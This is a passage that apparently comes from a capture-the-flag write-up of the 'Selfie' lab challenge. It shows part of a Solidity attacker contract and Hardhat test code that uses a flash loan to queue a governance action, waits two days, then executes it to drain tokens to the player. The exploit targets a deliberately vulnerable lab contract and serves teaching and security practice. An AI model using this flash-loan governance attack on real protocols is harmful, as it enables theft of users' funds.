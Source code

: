 ```Java
        return keccak256("ERC3156FlashBorrower.onFlashLoan"); // needed for IERC3156
    }

    function executeAction() external {
        governance.executeAction(actionID);
    }
}
```

The Javascript Hardhat code to trigger this is given below: 

```Javascript
        // take out flash loan and deposit the tokens into rewarderPool
        const SelfieAttackerFactory = await ethers.getContractFactory('SelfieAttacker', deployer);
        let attacker = await SelfieAttackerFactory.connect(player).deploy(pool.address);
        await attacker.createAction();

        // wait 2 days
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days

        // call exectueAction, and make sure the tokens are sent to player
        await attacker.executeAction();
```